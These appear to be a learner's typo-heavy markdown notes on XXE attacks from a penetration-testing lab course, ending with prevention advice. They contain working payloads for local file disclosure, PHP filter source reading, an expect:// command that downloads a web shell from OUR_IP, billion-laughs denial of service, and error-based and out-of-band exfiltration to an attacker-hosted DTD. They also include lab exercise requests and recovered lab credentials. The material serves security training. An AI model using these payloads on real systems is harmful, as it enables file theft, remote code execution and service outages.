

# Intro to XXE:
This vulnerability occur when XML data is taken form a user-cotrolled input without properly sanitazing or safely parsing it which may allos us to use XML ft to perfom malicius actions.
XXE vulnerabilities can cause considerable dmg to a web app and is its back-end server, formn disclosing seneitive files to shutting the back-end server down, which is why it considered one to the top risk.

## XML:
Extensible Markup Language(XML) is a common language [similar to HTML] designed for flexible transfer and storage od data and documents in varius type of app. XML is not focused on displaying
data by mostly on storing document's data an representing data structures. XML documents are on displayingdata but mostly on storing documents data and repesenting data structure.
XML docuements are formed of element trees, where each element is essentialy denoted by a tag, and the first element is called the root element, while other are a child elements.
Example of email document estructure:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
    <date>10-10-2023</date>
    <time>10:00 am UTC</time>
    <sender>mail@mail.com</sender>
    <recipients>
        <to>HR@mail.com</to>
        <cc>
            <to>pat@mail.com</to>
            <to>ter@mail.com</to>
        </cc>

    </recipients>

    <body>Hello everyone</body>
</email>
```
Example show some of teh key element of XML document like:

Some characters are use as part of an XML documents structure, like [<>,& or "].

## XML DTD
XML Docuemnt Type Definition allows the validation of an XML docuemnt against a pre-defined document structure. The predefined document struct
can be decined in the document itself or in an external file. The following example for xml docuemtn:
```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```
As we can see the declatation the root email with the element type declaration and then denoting its child element. Each child element is also declared, where some of them also have
a child elements, while others may only contain raw data.
The above DTD can be placed within the XML docuemnt itself, right after the XML declatation first line. It can be stored in a external and then referenced within the XML doucument with the SYSTEM keyword.

## XML Entities:
We also define custom entities to allow reflactoring of variables and reducer repetitive data. This can be done owth the use of the ENITITY keyword, which is followed by the entity name an its value:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
One we define an entity, if can be referenced in a XML docuemtn between an ampersand & and a semi-colon;. Whenever an entity id referenced, it will be replaced with it value by the XML parser.
We can refernece External XML Enitities with the [SYSTEM] keyword:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```
We made also ise teh [PUBLIC] keyword instead of [SYSTEM] for loading external resources, which is used publicly declared entities and standards, sucha as language code[lang-"en"].
The works similary to internal XML entities defined within docuemts. When we reference an external entity[&signature]; the parse will replace the entity with its calue stored in external file.
Whne the XML file is parsed on the server-side, in cases like SOAP(XML) APIs ir web forms, then an entity can reference a file stored on the back-end  server, which may eventually be disclosed to us when we refernce
the entity.

# Local File Diclosure:
When a web app trust unfiltered XML data form user input, we may be able to reference an external XML DTD document and defined new custom XML entities. and have them displayed on the web pafe. We should also be able
to define exteranl and make them reference a local file, when displayed should show us the content of that file on the back-end server.
- Identifying:
First step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input. We can start in the Contract FORM:
If we fill the contact form and click on Send Data, then intercpet the HTTP request with Burp we get following request:
AS we can see, the form appears to be sending our data in an XML format to the web server, making this potential XXE testing target Suppose the web app uses outdate XML libraries, and does not apply filters or sanitization on our
XML input.
We see that the valuie os the mail element is begin displayed back to us on the page. to print the content of an external file to the page, we should [note which elemnt are begin desplaying, such that we kneo which elemetn to inject to].
In some cases, no elements may be displayed, which we will cover how to exploit in the upcoming sections.
We knopw that whathever value we place in teh <email></email> elenment gets displayed in the HTTP response. So let us try to define a new entity and then use as a variable in the email element see whether it gets replaced with the value
we defined. We can use what we learned in the previus section for defining new XML and add the following line after the first lin in the XML input:
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
Note: In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the DOCTYPE was already declared in the XML request, we would just add the ENTITY element to it.
Now wwe should have a new XML enitity called company, which we can refernce with &company;. So instead of using our mail in the mail elemnt, using &company; and see whether it will ve replaced with the value we defined {INlane Freight}:

As we can see, teh response did use the value of the entity we defined[Inlane Freight] instead of displaying &comanpy; indicating that we may inject XML code.
Note: Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool.
[Tool](https://www.convertjson.com/json-to-xml.htm)

- Reading Sensitive Files:
Now we can define new internal XML entities let's see if we can define external XML entities. So is farily similar to what we did earlier, just add the SYSTEM keyword and define the external reference path after it. as we have learned in previus section:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
We sew that we did indeed get the content of the /etc/passwd file, meaning that we have successfully exploited the XXE vulnerability to read local files.
This is enables us to read the content of sentive files, like configuration files that may contain pass or other sensitive files an id_rsa SSH kley of  a
specific user, which may grant us access to the back-end server. We can refer to the File INclusion / Directory traversal module to see what attacks can be carried out.
Tip: In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.

- Reading Soruce Code:
Another benefit of local file disclosure is the ability to obtain the source code of the web app. This would allow us to perform A Whitebox penetratrion Test to unveil more vulnerabilities in the web app, or at the very least reveal secret configuration like database pass or API key.
Let us see if we can use the same attack to read the source code of the index.php fie:
As we can see this did not work, as we didi not ge any content. This happeend cause the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity.
If a file contains some a XML special character would break the external entity reference and not be used for the reference. We cannot read any binary data, as it would also not conform to the XML format.
PHP provide wrapper fileters that allow to base64 encode certain resource 'including files', which case the final base64 output should not break the XML format. Instead of using [file://] we will user PHP [php://filter/] wrapper.
We can specify the convert.base64-encode encoder as our filter and then add an input resource [resource=index.php]:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
Thsi reich only works in PHP apps.

- Remote code Execution with XXE:
In addition to reading local files, we may be able to gain code execution over the remote server, the ez method would be to look for ssh keys, ot attempt to utilize a hash
stealing trick in Windows based web-apps, by making a call to our server, If these to not work, we may still be able to execute commands on PHP-based web aps through the PHP://expect fileter,
though this requires the PHP expect module to be installed and enabled.

If the  XXE directly prints its output as shown in this section; then we can execute basic commands aas [expect://id] and the page should print the command output. If we
did not have access to the output, or needed to execute a more complicated command reverse shell, then the XML syntax may break and teh command may not execute.
The mod efficient method to turn XXE into a RCE is by fetching a web shell form our server and writing it to web app, and thgen we cna interct with it to execute commands.
```sh
echo '<?php sytem($_REQUEST["cmd]);?>' > shel.php
sudo python3 -m http.server 80
```
Now we ccna use the following XML code to execute a curl command that dowloads our web shell into the remote server:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
Note: We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.
Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

- Other XXE attacks:
Another common attacj often carried out through XXE vulnerabilities is SSRF explotationm, which is used to enumerate locally open and access their pages, among other resticted web pages, though the XXE vulnerability. the Server-side attack module thoght covers SSRF, and the same tech
can be carreied with XXE attacks/
Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>

```
This payload defines the a0 entity as DOS, references it in a1 multiple times, references a1 in a2 and so on until the backend server memory out due to the self-refernces loops.
This attack no longer no longer work with modern web server as they protected againtst entity self-refernces.
Exercise:
1. Read code soruce with base64 filter:
```js
POST /submitDetails.php HTTP/1.1
Host: 10.129.101.192
Content-Length: 264
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.101.192
Referer: http://10.129.101.192/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
```
```html
<!DOCTYPE html>
<html lang="en">

<head>
	<title>Entity Services</title>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<link rel="icon" type="image/png" href="images/icons/favicon.ico" />
	<link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
	<link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
	<link rel="stylesheet" type="text/css" href="fonts/Linearicons-Free-v1.0.0/icon-font.min.css">
	<link rel="stylesheet" type="text/css" href="vendor/animate/animate.css">
	<link rel="stylesheet" type="text/css" href="vendor/css-hamburgers/hamburgers.min.css">
	<link rel="stylesheet" type="text/css" href="vendor/animsition/css/animsition.min.css">
	<link rel="stylesheet" type="text/css" href="vendor/select2/select2.min.css">
	<link rel="stylesheet" type="text/css" href="vendor/daterangepicker/daterangepicker.css">
	<link rel="stylesheet" type="text/css" href="css/util.css">
	<link rel="stylesheet" type="text/css" href="css/main.css">
</head>

<body>


	<div class="container-contact100">
		<div class="wrap-contact100">
			<form class="contact100-form validate-form">
				<span class="contact100-form-title">
					Contact Form
				</span>
				<span id=success></span>

				<label class="label-input100" for="first-name">Full name *</label>
				<div class="wrap-input100 rs1-wrap-input100 validate-input" data-validate="Type first name">
					<input id="first-name" class="input100" type="text" name="first-name" placeholder="First name">
					<span class="focus-input100"></span>
				</div>
				<div class="wrap-input100 rs2-wrap-input100 validate-input" data-validate="Type last name">
					<input class="input100" type="text" name="last-name" placeholder="Last name">
					<span class="focus-input100"></span>
				</div>

				<label class="label-input100" for="email">Email *</label>
				<div class="wrap-input100 validate-input" data-validate="Valid email is required: ex@abc.xyz">
					<input id="email" class="input100" type="text" name="email" placeholder="Eg. example@email.com">
					<span class="focus-input100"></span>
				</div>

				<label class="label-input100" for="phone">Phone number</label>
				<div class="wrap-input100">
					<input id="phone" class="input100" type="text" name="phone" placeholder="Eg. +1 800 000000">
					<span class="focus-input100"></span>
				</div>

				<label class="label-input100" for="message">Your query *</label>
				<div class="wrap-input100 validate-input" data-validate="Message is required">
					<textarea id="message" class="input100" name="message" placeholder="Write us a message"></textarea>
					<span class="focus-input100"></span>
				</div>

				<div class="container-contact100-form-btn">
					<button class="contact100-form-btn" type="button">
						Send Message
					</button>
				</div>
			</form>

			<div class="contact100-more flex-col-c-m" style="background-image: url('images/bg-01.jpg');">
				<div class="flex-w size1 p-b-47">
					<div class="txt1 p-r-25">
						<span class="lnr lnr-map-marker"></span>
					</div>

					<div class="flex-col size2">
						<span class="txt1 p-b-20">
							Address
						</span>

						<span class="txt2">
							Account Department,<br />
							Inlane Freight
						</span>
					</div>
				</div>

				<div class="dis-flex size1 p-b-47">
					<div class="txt1 p-r-25">
						<span class="lnr lnr-phone-handset"></span>
					</div>

					<div class="flex-col size2">
						<span class="txt1 p-b-20">
							Urgent Enquiries
						</span>

						<span class="txt3">
							+1 800 1236879
						</span>
					</div>
				</div>

				<div class="dis-flex size1 p-b-47">
					<div class="txt1 p-r-25">
						<span class="lnr lnr-envelope"></span>
					</div>

					<div class="flex-col size2">
						<span class="txt1 p-b-20">
							General Support
						</span>

						<span class="txt3">
							services@inlanefreight.htb
						</span>
					</div>
				</div>
			</div>
		</div>
	</div>


	<div id="dropDownSelect1"></div>
	<script src="vendor/jquery/jquery-3.2.1.min.js"></script>
	<script src="vendor/animsition/js/animsition.min.js"></script>
	<script src="vendor/bootstrap/js/popper.js"></script>
	<script src="vendor/bootstrap/js/bootstrap.min.js"></script>
	<script src="vendor/select2/select2.min.js"></script>
	<script>
		$(".selection-2").select2({
			minimumResultsForSearch: 20,
			dropdownParent: $('#dropDownSelect1')
		});
	</script>
	<script src="vendor/daterangepicker/moment.min.js"></script>
	<script src="vendor/daterangepicker/daterangepicker.js"></script>
	<script src="vendor/countdowntime/countdowntime.js"></script>
	<script src="js/main.js"></script>
</body>

```


```js
POST /submitDetails.php HTTP/1.1
Host: 10.129.101.192
Content-Length: 269
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.101.192
Referer: http://10.129.101.192/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php"> --> esto es lo que hay que modificar
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
<?php

$api_key = "UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg";

try {
	$conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9");
}

catch ( exception $e ) {
 	echo $e->getMessage();
}

?>
```

### Advanced File Disclousure:
Not all XXE vulnerabilities may be straightfoward to exploit, as we have seen in previus section. Some file formates may not be a readeable throgh basic XXE, while in other cases. the web app may no output
any input values in some instances, so we may try to force it through errors.
- Advanced Exfiltratrion with CDATA:
We saw how we could use PHP filters to encode PHP source files, that they would not break the XML format when referenced, whcih prevented us fomr reading these files.
But what about other types of Web Apps? We can utilize another method to extract any kind of data for any web backend.
To output data that does not conform to the XML format, we can to ther XML format, we can wrap the content of the external file reference with CDATA tag [<![CDATA[FILE_CONTENT]]>]. One ez wat to tacles this issue
would be to define a begin internal entity with <![[CDATA. and end internal entity ]]>, and then place ouir external entity file in between and, it shoud be considered as a CDATA element:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that if we reference the &joined; entity contain our escaped data. This will not work, since XML prevent joining internal and external enitties, wo we will have to find berret way to do so.
To Bypass this limitation, we can utilize  XML Paramater Enitities, a special type of entity that starts with % character and can only be used within the DTD. Unique about parameter entities is
that if we reference tham form an external soruce, then all of them would be considered as external and can be joined as follow:
`<!ENTITY joined  "%begin;%file;%end;>`
Let's try to read the submitDetails.php file by first storing the above line in a DTD file, host it our machine, and then reference it as external enitity on the target web app:
`echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd`
`python3 -m http.server 8000`

Now we can reference our external enitity and the print the &joined; entity we defined above, which should contain the content of the submitDetails.php file as:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
Once we write our xxe.dtd file host it our machine, and then add the above lines to our HTTP request to the vulnerable web app, we can finally get the content of the submitDetails.php file:
As we can see we were able to obtain the file source without needing to encode it to base64, which saves a lot of tiime when going thorough varius file to look for secrets and pass.

> [!NOTE]
> In some modern web server, we may not be able to read some files, as the web server would be preventing a DOS attack cause by file/entity self-refernece

This trick can become vey handly when tha basic XXE method does not work or when dealing with other web development framework.

- ERROR BASED XXE:
Anotehre situation we may find ourselves in is one where the web app might not write any output, so we cannot control any of the XML input enitites to write its content. We would be blind to the XML output and os would
not be able to retrive the file content usin our usual method.
If the web app desplays runtime error and does not have proper exception handling for the XML Input, then we can use this flaw to read to output of the XXE exploit.
Let's consider the exercise we have in /error at the end of this section, in which none of the XML input entities is displayed ont the screen. We have no entity that we can control to write the file output.
Send malformed XML data, and see if the web app displays any error.
We can delete any of the closing tags, change one of them, so it does not close [<roo> instead of <root>] or just reference a non-existing enitty.
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the file parameter entity and then joins it with an enitity that does not exists. We were joining three strings, %nonExistingEntity; does not exists.
We can call our external DTD script, and the reference the error entity;
```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data we will get the content of the /etc/hosts file as follow:
This method may also be used to read the source code of file, DTD script to point to the file we want to read "file:///var/www/html/submitDetails.php"). However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.

### Blind Data Exfiltration:
As thej web server was displaying PHP runtime error, we could use this flaw to read the content of files form the displayed errors.

- Out-of-band Data Exfiltration:
If we try to repeat any of the methods with teh exercise we find at /blind, we'll quicklu notice that none of them seem to work, as we have no wat to have anything printed on the web response. We cna utilize a method known as OOB data exfiltration, which is often used in similar blind cases with many web attacks. like blind SQL Injections, blind
command injection. blind XXS, similar attacks and here we utilize a similar attack wth slight modifications to fit our XXE vulnerabilities.
IN our previous attacks, we utilize an out-of-band since we hosted the DTD file in or machine and made the web app connect to us. Our attack this time will be pretty similar, with one significant difference. Instead of having a web app output orui file enitity to specific XML entity, we will make web app send a web request to our web server with the conent
of the file we are reading.
We will create another exeternal parameter enitity and reference it to our IP, and place the file parameter value as part fo the URL begin requested over HTTP:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
The file we want to read had the content of XXE_SAMPLE_DATA, then the file parameter would hold its base64 encoded data. When the XML tries to reference the external oob parameter form our machine, it will request [http://ip:8000/?content=base64 code]
we can write a simple PHP script that automatically detects the encoded file content.

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
We'll first write the above PHP code to index.php and then start a PHP server on 800 port:
`php -S 0.0.0.0:8000`
Now to initiate our attack, we can use similar payload to the one we used in teh error-based attack, adn simply add [<root>&content;] </root>, which is
needed to reference our entity and have it send the request to our machine with the file content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
> [!TIP]
> In addition to storing our base64 encoded data s a parameter to our URL, we may utilize DNS OBB Exfiltration by placing the encoded data as a sub-domain for our URL and then use a tool like tcp dum to caputure any incoming trafic.

- Automated OOB Exfiltration:
Tool ios [XXEinjector](https://github.com/enjoiz/XXEinjector), this tool supports most of the tricks we learned in this module. to use:
    - Recepter:
```js
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
We cna run the --host/--httport flags begin our IP and port, the --file flag and the --path flag. We also selectet the --oob=http and --phpfiler flag.
```sh
uby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
Then we cat the pass.log and see

- Exercise:
 Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.
Notebook blue.

## Prevention
- Avoiding Outdate Compenets:
Input validation are usually prevented throgh secure coding practice, this is not entirely neccesary to prevent XXE vulnerabilities.
For example libxml_disable_entity_loader is deprected since it allow to enable exeternal entities.

In addition to updating the XML libraries, we should also update any components that parse XML input, such as API libraries like SOAP. Furthermore, any document or file processors that may perform XML parsing,
like SVG image processors or PDF document processors, may also be vulnerable to XXE vulnerabilities, and we should update them as well.

Other than using the latest XML libraries, certain XML configurations for web applications can help reduce the possibility of XXE exploitation. These include:

- Disable referencing custom Document Type Definitions (DTDs)
- Disable referencing External XML Entities
- Disable Parameter Entity processing
- Disable support for XInclude
- Prevent Entity Reference Loops
Another thing we saw was Error-based XXE exploitation. So, we should always have proper exception handling in our web applications and should always disable displaying runtime errors in web servers.

With the various issues and vulnerabilities introduced by XML data, many also recommend using other formats, such as JSON or YAML. This also includes avoiding API standards that rely on XML (e.g., SOAP) and using JSON-based APIs instead (e.g., REST).

Finally, using Web Application Firewalls (WAFs) is another layer of protection against XXE exploitation. However, we should never entirely rely on WAFs and leave the back-end vulnerable, as WAFs can always be bypassed.

